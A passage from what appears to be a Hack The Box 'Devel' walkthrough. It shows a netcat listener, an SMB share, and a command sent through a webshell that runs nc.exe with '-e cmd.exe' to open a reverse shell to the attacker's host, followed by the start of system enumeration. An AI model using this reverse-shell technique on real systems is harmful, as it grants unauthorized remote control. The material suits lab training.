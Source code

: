 Next, we'll need to turn on the server to a fileshare named "share."

`python3 smbserver.py share smb`

Then in another terminal tab, we'll turn on the listener to catch the request. 

`nc -nvlp 4444`

Okay! Everything's ready, so let's go to the cmdasp webshell and run the following command to see if we can gain a reverse shell. 

`\\10.10.14.31\share\nc.exe -e cmd.exe 10.10.14.31 4444` 

	root@kali:~# nc -nvlp 4444
	listening on [any] 4444 ...
	connect to [10.10.14.31] from (UNKNOWN) [10.10.10.5] 49165
	Microsoft Windows [Version 6.1.7600]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

It worked! We have access. 

Next we'll take a look to see what type of access we have by using the command `whoami`.. darn, not system access so we'll need to complete a privilege escalation.
	
	c:\windows\system32\inetsrv>whoami
	whoami
	iis apppool\web

### Privilege Escalation

Now that we're on the machine, let's see if we can get some information about it. 

	c:\windows\system32\inetsrv>systeminfo
	systeminfo

	Host Name:                 DEVEL
	OS Name:                   Microsoft Windows 7 Enterprise 
	OS Version:                6.1.7600 N/A Build 7600
	OS Manufacturer:           Microsoft Corporation
	OS Configuration:          Standalone Workstation
	OS Build Type:             Multiprocessor Free
	Registered Owner:          babis
	Registered Organization:   
	Product ID:                55041-051-0948536-86302
	Original Install Date:     17/3/2017, 4:17:31 ��
	System Boot Time:          20/5/2020, 7:00:18 ��
	System Manufacturer:       VMware, Inc.
	System Model:              VMware Virtual Platform
	System Type:               X86-based PC
	Processor(s):              1 Processor(s) Installed.
				   [01]: x64 Family 23 Model 1 
				   Stepping 2 AuthenticAMD ~2000 Mhz
	BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
	Windows Directory:         C:\Windows
	System Directory:          C:\Windows\system32
	Boot Device:               \Device\HarddiskVolume1
	System Locale:             el;Greek
	Input Locale:              en-us;English (United States)
	Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
	Total Physical Memory:     1.023 MB
	Available Physical Memory: 737 MB
	Virtual Memory: Max Size:  2.047 MB
	Virtual Memory: Available: 1.527 MB
	Virtual Memory: In Use:    520 MB
	Page File Location(s):     C:\pagefile.sys
	Domain:                    HTB
	Logon Server:              N/A
	Hotfix(s):                 N/A
	Network Card(s):           1 NIC(s) Installed.